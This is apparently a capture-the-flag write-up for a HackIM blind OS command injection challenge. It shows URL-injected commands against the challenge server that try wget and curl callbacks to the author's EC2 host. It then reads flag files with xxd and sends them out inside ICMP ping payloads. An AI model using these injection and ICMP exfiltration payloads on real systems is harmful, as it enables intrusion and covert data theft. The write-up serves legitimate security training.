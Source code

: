 ## HACKIM8 - Web 3 - Blind OS command injection

In this interesting challenge, application is taking user input and passes it to a application code that runs a task on the underlying server. I have tried to execute simple OS command but I could not able to see any response so immediately I have started my EC2 amazon server and force vulnerable app to send a request to my cloud server. I have tried below steps: 
   
      http://54.89.146.217/index.php?cmd=wget%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
      http://54.89.146.217/index.php?cmd=curl%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com
 
 None of the above command worked for me. Either application was filtering word like wget, curl or it was not allowing any outbound connection however the last try worked for me and that was ping command:
 
      http://54.89.146.217/index.php?cmd=ping%20http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com

I have started tcpdump on my cloud server and I was able to see packet.

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/packet_1.PNG "Optional Title") 

I took the advantage of ping command I have tried to check if hping3 or scappy were installed on linux box but unfortunately none of them were present on server as I was not able to see any ICMP requests for below condition: 
       
       http://54.89.146.217/index.php?cmd=if test -e "/usr/bin/scappy";then ping -c2 http://ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;
       http://54.89.146.217/index.php?cmd=if test -e "/usr/sbin/hping3";then ping -c2 ec2-35-166-203-92.us-west-2.compute.amazonaws.com;fi;

Alright so after spending enought time, I was able to figure out below things:

- OS Commands were being executed on the server side but it was not reflecting back in response. 
- Server was also not accepting few utilities/commands like `wget`,`hping3`,`scappy`,`curl`,`http` and many more however it was accepting ping command so I need to read the flag file using some command and send that flag to my server through ICMP packet.

Before I execute any command blindly on CTF server, I thought to send few ICMP packets with some data to my cloud server.  

![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/ping_req.PNG "Optional Title") 

I quickly crafted command which will first read flag1 file and send that through ICMP packet. Below was my final attempt to read flagpart1.txt file:
 
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart1.txt)

Reading ICMP packets on my server using tcpdump
   
  ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag1.PNG "Optional Title") 

Flag 1 from flagpart1.txt was '0omgth4t'. 

Reading flagpart2.txt file: 
   
    http://54.89.146.217/index.php?cmd=ping ec2-35-166-203-92.us-west-2.compute.amazonaws.com -p $(xxd -p /home/nullcon/flagpart2.txt)

Reading ICMP packets on my server using tcpdump

    ![Alt text](https://github.com/sagarpopat/CTF-wirteup/blob/master/images/flag2.PNG "Optional Title") 

Flag 2 from flagpart2.txt was 'aniceflag'. 
   
and our final flag(flagpart1+flagpart2) is
   
      flag{0omgth4taniceflag}
    
## Credits
- Shubham Mittal
- Sanjog Panda
- Archita Aparichita
- Pratap Chandra
- Chandrakant Nial
- Swaroop Yermalkar


